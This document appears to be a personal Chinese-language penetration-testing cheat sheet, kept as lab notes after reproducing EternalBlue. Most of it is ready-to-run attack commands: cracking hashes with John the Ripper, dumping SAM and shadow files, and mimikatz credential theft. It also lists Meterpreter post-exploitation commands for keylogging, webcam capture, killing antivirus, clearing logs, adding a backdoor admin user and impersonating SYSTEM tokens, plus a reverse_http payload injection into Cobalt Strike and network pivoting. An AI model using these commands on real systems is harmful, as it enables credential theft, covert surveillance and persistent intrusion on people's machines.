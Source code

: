 john test.txt --format=crypt

 john爆破出现Using default input encoding: UTF-8 No password hashes loaded (see FAQ)
 我以为是
 >在Vim中直接进行转换文件编码,比如将一个文件转换成utf-8格式  
`:set fileencoding=utf-8`
查看文件格式  
`:set fileformat?`
设置文件格式为 unix  
`:set fileformat=unix`

结果不是
 出现这个提示不是说明破解失败了，而是这个hash以前被你破解过，可以使用以下命令查看破解出的密码是什么。
使用下面这条命令即可解决
john --show password.txt

msf永恒之蓝命令执行后：
hashdump得到的值拿到最后32位字母数字组合可以在下图,注意类型是NTLM
![[Pasted image 20240318142344.png]]

![[Pasted image 20240318114658.png]]

unshadow命令基本上会结合/etc/passwd的数据和/etc/shadow的数据，创建1个含有用户名和密码详细信息的文件
unshadow /etc/passwd /etc/shadow > shadow

Windows的登录密码的hash值保存在SAM文件中，SAM是“security account manager”的首字母缩写。通常，它位于

```
  C:\windows\system32\config\SAM
```
SAM文件被Windows保护，不能直接读取，需借助工具，如[SAMInside](http://www.insidepro.com/download/saminside.zip)。找一台Windows7虚拟机，新建一个名为hashcat的管理员用户，并设置密码，在Windows7中下载并解压SAMInside后以管理员权限运行，然后点击File->Import Local Users vis Scheduler，如下图所示：
```css
//导出 SAM 和 System 文件：通过 reg 的注册表导出
reg save hklm\sam sam.hive 
reg save hklm\system system.hive
move 移动文件
//使用mimikatz读取SAM和System文件
lsadump::sam /sam:sam.hive /system:system.hive
```
```css
samdump2 system.hive sam.hive > hash.txt
```
```bash
john -format=NT hash.txt  #破解,使用john自带的密码字典
john --show -format=NT hash.txt    #查看破解结果
```

![[Pasted image 20240318155653.png]]

```
ssh2john ~/.ssh/id_rsa > id_rsa.hash
```

```
keepass2john newdb.kdb > newdb.kdb.hash
```

```
rar2john encrypted.rar > encrypted.rar.hash
```

>[!ips]
后渗透阶段:
在meterpreter > 中我们可以使用以下的命令来实现对目标的操作：
sysinfo             #查看目标主机系统信息
run scraper         #查看目标主机详细信息
hashdump        #导出密码的哈希
load kiwi           #加载
ps                  #查看目标主机进程信息
pwd                 #查看目标当前目录(windows)
getlwd              #查看目标当前目录(Linux)
search -f *.jsp -d e:\                #搜索E盘中所有以.jsp为后缀的文件
download  e:\test.txt  /root          #将目标机的e:\test.txt文件下载到/root目录下
upload    /root/test.txt d:\test      #将/root/test.txt上传到目标机的 d:\test\ 目录下getpid              #查看当前Meterpreter Shell的进程
PIDmigrate 1384     #将当前Meterpreter Shell的进程迁移到PID为1384的进程上
idletime            #查看主机运行时间
getuid              #查看获取的当前权限
getsystem           #提权
run  killav         #关闭杀毒软件
screenshot          #截图
webcam_list         #查看目标主机的摄像头
webcam_snap         #拍照
webcam_stream       #开视频
execute  参数  -f 可执行文件   #执行可执行程序
run getgui -u hack -p 123    #创建hack用户，密码为123
run getgui -e                #开启远程桌面
run post/windows/manage/enable_rdp
keyscan_start                #开启键盘记录功能
keyscan_dump                 #显示捕捉到的键盘记录信息
keyscan_stop                 #停止键盘记录功能
uictl  disable  keyboard     #禁止目标使用键盘
uictl  enable   keyboard     #允许目标使用键盘
uictl  disable  mouse        #禁止目标使用鼠标
uictl  enable   mouse        #允许目标使用鼠标
load                         #使用扩展库
run				             #使用扩展库
clearev                       #清除日志

mimikatz
```python
##右键以管理员权限运行
##获取调试权限
privilege::debug
#在具有Isass进程的权限才可以抓到密码
##抓取密码
sekurlsa::logonpasswords

```

wifi密码抓取
```css
netsh wlan show profile 
netsh wlan show profile name="ssid" KEY=clear
```

windows 控制台cmd乱码的解决办法 chcp 65001

开启远程桌面的办法
```cs
getuid
#如果当前是user权限要管理员权限才能开启3389
#要用到bypassuac提权
use exploit/windows/local/bypassuac
set session 1
run

run post/windows/manage/enable_rdp

#进入shell
net user hacker 123qwe.. /add
#将用户提升到管理员权限
net localgroup administrators hacker /add

rdesktop -u hacker -p 123qwe..  192.168.1.145
```

```Css
使用kiwi来获取靶机密码，注意这里需要进行的一个操作为进程迁移，因为我们这里上线到msf的载荷是32位的(即x86)，这里需要找一个64位的(即x64)进行进程迁移才能使用kiwi获取靶机密码

sessions -i 2
load kiwi
kiwi_cmd privilege::debug
ps
#getpid #查看meterpreter shell的进程号

migrate 1144
#kill 2496 #关闭进程
#run post/windows/manage/migrate #自动迁移进程

kiwi_cmd sekurlsa::logonPasswords

```

遇到杀软，无法甜土豆提权，可msf获得会话后假冒令牌提权
```css
load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
getuid
```

msf联动cs
```Css
回到msf，输入background，将我们得到的会话放在后台
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set lport 1233 #cobaltstrike监听的端口
set lhost 192.168.19.129 #cobaltstrike监听的ip
set disablepayloadhandler true #默认情况下，payload_inject执行之后会在本地产生一个新的handler，由于我们已经有了一个，所以不需要在产生一个，所以这里我们设置为true
set session 1 #这里是获得的session的id
打开cs 开启监听，端口为1233，点击add添加监听
```

web服务器的php配置有个disable_functions可以禁用一些危险函数，可以用phpinfo查看是否开启，getshell后蚂蚁剑有插件市场可以绕过

设置tcp代理
这里因为有两个网段就先把路由添加上方便后续操作
msf操作
route add 192.168.138.0 255.255.255.0 2
route print 
session操作
run autoroute -s 192.168.138.0/24
run autoroute -p`


参考链接
[使用hashcat爆破各种hash | 若水斋](https://blog.werner.wiki/use-hashcat-crack-all-kinds-of-hash/)

[Windows 用户密码的加密方法与破解 | 国光](https://www.sqlsec.com/2019/11/winhash.html)

[永恒之蓝漏洞复现(ms17-010) - hkgan - 博客园](https://www.cnblogs.com/hkgan/p/17339860.html)

[SMBGhost\_RCE漏洞利用（MSF和CS联动） - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/277707.html)

[MSF中kiwi模块的使用\_load kivi-CSDN博客](https://blog.csdn.net/m0_53087192/article/details/112707016)